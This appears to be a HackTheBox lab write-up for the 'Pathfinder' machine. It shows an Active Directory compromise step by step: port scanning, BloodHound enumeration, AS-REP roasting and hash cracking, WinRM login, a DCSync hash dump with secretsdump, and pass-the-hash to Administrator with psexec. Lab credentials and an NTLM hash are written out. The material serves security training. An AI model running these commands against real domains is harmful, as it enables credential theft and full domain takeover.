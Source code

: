 # HackTheBox-Pathfinder

## Rustscan
```bash

rustscan -a 10.10.10.30 -- -A -sC -sV
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com


Open 10.10.10.30:53
Open 10.10.10.30:88
Open 10.10.10.30:135
Open 10.10.10.30:139
Open 10.10.10.30:389
Open 10.10.10.30:445
Open 10.10.10.30:464
Open 10.10.10.30:593
Open 10.10.10.30:636
Open 10.10.10.30:3268
Open 10.10.10.30:3269
Open 10.10.10.30:5985
Open 10.10.10.30:9389


PORT     STATE SERVICE       REASON          VERSION
PORT     STATE SERVICE       VERSION                                      
53/tcp   open  domain?
| fingerprint-strings:                                                                                                                              
|   DNSVersionBindReqTCP:                                                 
|     version                                                             
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-05-09 07:40:32Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGACORP.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
9389/tcp open  mc-nmf        syn-ack ttl 127 .NET Message Framing

```

## PORT  139/445 (SMB)
We check for smb share if there are any 

<img src="https://imgur.com/4NFZwar.png"/>

Let's test for brute forcing any user name

<img src="https://imgur.com/JbQwBvh.png"/>

We didn't get anything out of it but found host name `PATHFINDER`, so let's move on to a different port

## PORT 389 (LDAP)

We wil be using Python based ingestor for BloodHound,by specifiying the username and password `sandra:Password1234!` which I don't know where I could find them , in the official writeups it was referenced to be found from a previous machine which they didn't mention so I am going to use these credentials to authenticate when using this python tool

```
python3 bloodhound.py -d 'megacorp.local' -u 'sandra' -p 'Password1234!' -gc 'pathfinder.megacorp.local' -c all -ns 10.10.10.30
```

Let's break down the arugments here

-d ---> This is for specifying domain name in this case we have a domain `megacorp.local` which can be seen from nmap scan

-u --->  This is for specifying a username
-p --->  This is for specifying a password
-gc ---> This is for specifying name of the host which is `pathfinder` which we have seen when we were trying to use crackmapexec to brute force users

-c ---> This is for collection method and we set this to `all` which will try to dump information regarding roup, LocalAdmin, Session, Trusts, Default (all previous),DCOnly (no computer connections), DCOM, RDP,PSRemote, LoggedOn, ObjectProps, ACL, All (all except LoggedOn)

-ns --->  This is for specifying the name server in this case it is the machine IP

<img src="https://imgur.com/rxFVXGf.png"/>

We now have these json files

<img src="https://imgur.com/7mqammn.png"/>

Let's start `neo4j` and `bloodhound` and import these files into it

<img src="https://imgur.com/uJwJ1wX.png"/>

<img src="https://imgur.com/9evO4pF.png"/>

Create an archive for this json files 

<img src="https://imgur.com/uq8PceG.png"/>

Drag and drop the archive into the bloodhound GUI. Run the query of `Find All Domain Admins`

<img src="https://imgur.com/5xjSbZF.png"/>

Run the query of `Find All kerberoastable Accounts`

<img src="https://imgur.com/u2Lm7OX.png"/>

Run query of `Find Path to kerberoastable Accounts`

<img src="https://imgur.com/r7N7giw.png"/>

So from running these queries we know that service account `SVC_BES` is kerberoastable, let's run the python script `GetNPUsers.py` from `Impacket`

<img src="https://imgur.com/KZZQZyI.png"/>

Now running with `-request` parameter we can get a TGT hash

<img src="https://imgur.com/nt8ec28.png"/>

Going to hashcat examples we can see what type of hash is this

<img src="https://imgur.com/fuyMeAn.png"/>

So we are going to use `hashcat` to crack the hash

<img src="https://imgur.com/1P5Ipa9.png"/>

<img src="https://imgur.com/pbbCHsk.png"/>

Now we have cracked the kerberoast hash since winrm port (5985) is open we can use `evil-winrm` to login with the new credentials

<img src="https://imgur.com/lxiQopZ.png"/>

Now here let's look the result of our loot from bloodhound by running the `DCsync` query which will allow us to dump hashes from NTDS.dit which holds the passwords for all acounts in AD

<img src="https://i.imgur.com/TdYo58x.png"/>

We can see the user which we kerberoasted has privileges for `GetChangesAll` which means we can request for replication for NTDS.dit 

<img src="https://imgur.com/EqDwWvM.png"/>

Using `secretsdump.py` for dumping hashes from NTDS.dit

```
./secretsdump.py 'MEGACORP.LOCAL/svc_bes':'Sheffield19'@10.10.10.30 -just-dc-ntlm
```

<img src="https://imgur.com/j0ocoSy.png"/>

We have the hashes and we don't need to crack these hash we can use `psexec.py` or `evil-wirm` to authenticate our selves

<img src="https://imgur.com/BgBLDsr.png"/>

```
python psexec.py MEGACORP.LOCAL/Administrator@10.10.10.30 -hashes 'aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18'
```

<img src="https://imgur.com/dBUUfqn.png"/>
